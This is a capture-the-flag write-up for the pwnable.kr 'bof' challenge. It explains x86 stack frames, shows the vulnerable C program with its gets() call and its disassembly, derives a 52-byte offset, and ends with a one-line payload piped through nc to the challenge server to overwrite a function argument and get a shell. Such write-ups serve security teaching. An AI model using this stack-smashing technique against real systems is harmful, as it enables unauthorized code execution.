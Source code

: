 ### bof (a.k.a buffer overflow)

#####  Solved based on write-ups from [nrjflow](https://www.nrjfl0w.org/index.php/2016/08/09/pwnable-kr-bof-writeup-toddlers-bottle/) and [USCGA github page](https://github.com/USCGA/writeups/tree/master/pwnable.kr/bof)

This was a good time to get a refresher on how the calling convention works on `x86` architectures:

- parameters of the functions are pushed to the stack, from last to first
- `ebp` is pushed to the stack
- return address is pushed to the stack
- value of `ebp` is updated to be the value of `esp`
- subtract a value from `esp` to make space for local stack frame
- push the values of local variables to current stack frame

The following picture sums this up nicely (_note that parameter will have a positive index from `ebp` while local variable have negative indices_):

![x86 calling convention](https://www.nrjfl0w.org/wp-content/uploads/2016/08/Screen-Shot-2016-08-09-at-10.21.43-PM.png)

Now as to the specific challenge, let's begin by looking at the `C` code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The basic idea is that `func` is called with argument `0xdeadbeef` but this value is later compared with `0xcafebabe` to give us the shell access. The hint is that we overflow the `overflowme` variable, which is a local variable and hence at a negative offset from `ebp`, to overwrite the value of `key`, which is a parameter passed to `func` and hence at a positive offset from `ebp`. Here, lets have a look at the assembly code for `func`:

```assembly
$ objdump -d bof | grep -A10 func
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave  
 689:	c3                   	ret
```

We know that `0xdeadbeef` would be at `$ebp+8`. Note that at line 649, `2c` is subtracted from `ebp`, pushed to the stack and `gets` called. This implies that gets puts the input value at `ebp-0x2c`. The difference is 52 bytes. Now to overflow the program the right amount:

```sh
$ # python => python3
$ (python -c "import sys; sys.stdout.buffer.write(b'\x90' * 52 + b'\xbe\xba\xfe\xca\n')"; cat) | nc pwnable.kr 9000
```

